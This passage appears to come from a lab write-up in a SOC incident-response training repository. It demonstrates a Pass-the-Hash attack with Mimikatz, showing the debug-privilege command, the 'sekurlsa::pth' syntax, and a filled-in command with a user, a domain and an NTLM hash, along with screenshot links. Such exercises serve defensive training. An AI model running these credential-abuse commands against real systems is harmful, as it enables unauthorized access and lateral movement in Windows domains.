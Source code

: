**Objective:** Implement Pass-the-Hash attack methodology using Mimikatz for credential manipulation and hash-based authentication.

**Mimikatz Privilege Establishment:**
Pass-the-Hash attacks require debug privileges for memory access and credential manipulation in Windows authentication subsystems.

```cmd
privilege::debug
```

![Mimikatz Privilege Debug](https://raw.githubusercontent.com/Mustangrim/SOC-Incident-Response-Framework/main/assets/screenshots/mimikatz-privilege-debug.png)

**Debug Privilege Significance:** Administrative debug access enables memory credential extraction and token manipulation essential for advanced authentication attacks.

#### Task 2.2: Hash-Based Authentication Implementation

**Objective:** Execute Pass-the-Hash attack using NTLM hash for domain controller authentication without password knowledge.

**Mimikatz Pass-the-Hash Syntax:**
```cmd
sekurlsa::pth /user:<account> /domain:<domain> /ntlm:<ntlm-hash>
```

**Attack Implementation:**
```cmd
sekurlsa::pth /user:enolabarnet /domain:commensurate.tech /ntlm:206775b2946c5f22a5310222f759fe89
```

![Mimikatz PTH Execution](https://raw.githubusercontent.com/Mustangrim/SOC-Incident-Response-Framework/main/assets/screenshots/mimikatz-pth-execution.png)
